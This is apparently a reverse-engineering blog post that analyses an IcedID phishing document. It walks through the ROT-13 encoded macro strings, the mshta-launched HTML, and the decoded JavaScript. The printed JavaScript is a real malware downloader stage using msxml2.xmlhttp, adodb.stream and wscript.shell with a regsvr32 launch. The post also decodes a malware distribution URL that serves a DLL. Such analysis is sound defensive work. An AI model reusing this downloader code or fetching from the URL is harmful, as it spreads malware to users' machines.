 ```yaml
---
layout: post
title: "Analysing IcedID: The macro and Mshta"
summary: "Analysing the macro and Mshta in the docx file"
date:   2020-09-05 17:40:00 -0400
categories: Reverse engineering
---
```


## Analysing IcedID malware

### Context
I was looking up for a malware to analyse just for fun. One day, I've saw a post on twitter from [Suspicious Link](https://twitter.com/reecdeep/status/1300432198135418880), when there was a link to the [app.any.run](https://app.any.run/tasks/d52f66be-14f1-47fc-ad3b-77c89c0e2b77/) sample. I thought it would be an opportunity to check out the sample. I'll describe in future posts the analysis. This first part is quite incomplete as the macro and the Mshta are really simple - I was expecting more work to do.

The md5 hash file is `87e3a3829c723650bea2110ea75a43cd`.

### Casual phishing
By opening the `doc` file, we are greeted with the classic "Please run the macro". Let's just dive into the macro.

### Lolz at the encoding
When looking at the strings in the macro, we can see at least three that catch the eye.

``` vb
Public Const al9h8L As String = "p_:_\_j_v_a_q_b_j_f_\_f_l_f_g_r_z_3_2_\_z_f_u_g_n_._r_k_r_"
Public Const as2QC As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._p_b_z_"
Public Const akJ8O5 As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._u_g_z_y_"
```

Using our experimented ctfs skills, we can guess a ROT encoding.

```
c_:_\_w_i_n_d_o_w_s_\_s_y_s_t_e_m_3_2_\_m_s_h_t_a_._e_x_e_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._c_o_m_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._h_t_m_l_
```

And it is indeed a ROT-13 encoding. From this point, another wild guess is the macro will create a `html` file and will execute `mshta` on that file, probably dropping another file on the filesystem. There's a big blob of text in the `UserForm1`, starting with `<!QBPGLCR`, which again translates to `DOCTYPE` using the rot-13. We can get the content and translate it using our vim foo, `g?`.

### Quick and dirty mshta analysis

_Reversing_ the `html` file can be done within minutes. I'll explain how I did it, and a more thorough analysis will follow some day.

There's `p` element containing what seems to be a hex encoded blob, starting with

``` html
<p id="content">616e75637272416e756372725[...]</p>
```

This blob should be used somewhere, and we can follow the reference. Another thing is that there's only one function in the JavaScript, and it only converts a string passed in parameter.

``` js
function aQp7I(aXmFa)
{
        var al3VX = "";
        for(var a8tBHG = 0; a8tBHG < aXmFa.length; a8tBHG += 2)
        {
                al3VX += String.fromCharCode(parseInt(aXmFa.substr(a8tBHG, 2), 16));
        }
        return(al3VX);
}
```

By adding a `console.log(al3VX);` right before the `return`, one can get the output of the function.


By following the `content` tag, we will first get to `var aGml5p = document.getElementById("content");`. Following the `aGml5p` variable, we get to `amqBO.RegWrite(a8X0v, aGml5p.innerHTML, "REG_SZ");`. So, the file will create a registry key and put the value of `content` in it. Following references to `amqBO` lead to `a8fnhv = amqBO.RegRead(a8X0v)`. This can be simplified as `a8fnhv = content`.

Next, `a8fnhv = aQp7I(a8fnhv);`. Our function is called! What happens next: `a8fnhv = a8fnhv.replace(/nucrr/ig, "");`, then `var azKf2 = new Function("u", "c", a8fnhv);`. Let's see what's the result of the content after being passed to the `aQp7I` function and after the regex removes some `nucrr` occurrences.

``` js
aAT1V6 = true;
var avN2J = "aBUo3";
var aZAeCP = avN2J.length;

function ar9sv(ahf1a) {
    var avFW1R = "";
    for (var axF8yP = 0; axF8yP < ahf1a.length; axF8yP += 2) {
        avFW1R += String.fromCharCode(parseInt(ahf1a.substr(axF8yP, 2), 16));
    }
    return (avFW1R);
}
var aqNek = true;
aFM47o = false;
akS0L = 30444;

function a2uAHR(avFW1R) {
    return (avFW1R.split("").reverse().join(""));
}
var aAgDpY = -38781;
var a8D1v = 47284;
var ae2PS = 12708;
aZacTF = "anUX4L";
a5WNsd = aZacTF.toLowerCase();
var avAZG = new ActiveXObject("msxml2.xmlhttp");
var aZHhk = -12863;
var apgUz = true;
var aGnoB = new ActiveXObject("adodb.stream");
var aFqyH = "aiXJ3";
a8Nh59 = aFqyH.toUpperCase();
aYdVD = true;
apeFM = -58349;
am5UGu = true;
var arfAe = new ActiveXObject("wscript.shell");
aLzZH7 = "aiPOsk";
a0zBvV = aLzZH7.toUpperCase();
avc2fk = "aG2REl";
var aLhWt = avc2fk.toUpperCase();
advOnm = arfAe.expandenvironmentstrings("%temp%");
var a4btjU = "aSbLM";
arpdw4 = true;
var a72X8Q = -9230;
a1TIE = "ackdmA";
aDyvj = a1TIE.length;
aqzl3 = -10026;
var a7bNS = true;
var aWI9yB = -30060;
asC6iW = advOnm + String.fromCharCode(92) + "temp.tmp";
aH3r4a = 6567;
var aTrpB8 = 29087;
a7fBn = "azidx0";
var auyeo = a7fBn.length;
aWg3M5 = "aga8Eq";
var aeoOT = aWg3M5.toString();
u = a2uAHR(u);
u = ar9sv(u);
amgJz = "ab3kae";
var aq6RX4 = 27911;
a4XbQ = false;
alWXi4 = 17174;
var aomJe = false;
avAZG.open("GET", u, 0);
[...]
```

Quickly, we can assume a HTTP request will be made, because of the `var avAZG = new ActiveXObject("msxml2.xmlhttp");`. It might also execute a PE file using the `arfAe.run("regsvr32 " + asC6iW)`. We can beautify the new JavaScript blob and read it. Two functions exist, and both are easy to understand (`ar9sv` and `a2uAHR`).

As the JavaScript code is only a hundred long lines, let's check out where `avAZG` is used. `avAZG.open("GET", u, 0);`, and what is the `u` variable? `u = a2uAHR(u); u = ar9sv(u);`. `u` seems to be undefined. Let's go back to the other html part. `var azKf2 = new Function("u", "c", a8fnhv);`. Good! Where is `azKf2` used? `azKf2("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786", 0);`. Now, let's just manually pass `261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786` to `azKf2` as such, and then run the JavaScript code:

``` js
u = a2uAHR("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786");
u = ar9sv(u);
console.log(u);
```

``` bash
$ js test.js 
http://qzxrqi.com/sapad/huwu.php?l=molef10.cab
```

And we got our next file! 

``` bash
$ file molef10.cab
molef10.cab: PE32 executable (DLL) (GUI) Intel 80386, for MS Window
```

Now shall start the fun!
